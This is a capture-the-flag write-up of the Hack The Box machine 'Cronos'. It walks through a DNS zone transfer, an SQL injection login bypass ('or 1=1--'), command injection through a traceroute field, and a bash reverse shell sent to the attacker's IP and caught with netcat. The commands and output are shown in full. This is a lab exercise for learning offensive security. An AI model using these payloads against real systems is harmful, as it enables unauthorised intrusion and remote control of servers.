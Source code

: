 ```bash

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 21 22:03:47 2021 -- 1 IP address (1 host up) scanned in 483.34 seconds
```
The machine is running SSH, an Apache server on port 80 and DNS on TCP port 53 for zone transfers.

### 2. Do DNS Transfer
Use dig to look up domain names on the server, using cronos.htb as the domain.
```bash
┌──(kali㉿kali)-[10.10.14.104]-[~/Desktop]
└─$ dig axfr cronos.htb @10.129.30.241

; <<>> DiG 9.16.11-Debian <<>> axfr cronos.htb @10.129.30.241
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.129.30.241
admin.cronos.htb.       604800  IN      A       10.129.30.241
ns1.cronos.htb.         604800  IN      A       10.129.30.241
www.cronos.htb.         604800  IN      A       10.129.30.241
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 300 msec
;; SERVER: 10.129.30.241#53(10.129.30.241)
;; WHEN: Fri May 21 22:21:19 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```
This confirms the domain name is cronos.htb and there is an admin.cronos.htb subdomain.  
Update hosts to reflect this: `10.129.30.241   cronos.htb admin.cronos.htb www.cronos.htb`.  

### 3. Enumerate domains
The cronos.htb domain links to a plan page with the word "Cronos", and some links indicating it is a Laravel instance.  
The admin domain has a login page. I tried running Hydra against it for a while but no luck. Then try a basic SQL injection and get straight in. Need to remember to try simple stuff first and not jump straight to something time consuming.
The SQL injection payload that works is: `' or 1=1-- `.

### 4. Explore the admin section
The admin section behind the login screen has options to execute ping and traceroute operations, however it quickly becomes apparent that they are running the linux utility commands on the server and returning the results. By injecting commands using `;` to chain an extra command on the end this can be verified. For instance, filling in the "host" field as `8.8.8.8; whoami` returns "www-data" on the screen.

### 5. Get a shell.
Specify the host for the traceroute as: `8.8.8.8; bash -c "bash -i >& /dev/tcp/10.10.14.104/80 0>&1"`.  
Get a shell in a listener.
```bash
┌──(kali㉿kali)-[10.10.14.104]-[~/Desktop]
└─$ sudo nc -lvnp 80 
listening on [any] 80 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.30.241] 43756
bash: cannot set terminal process group (1606): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```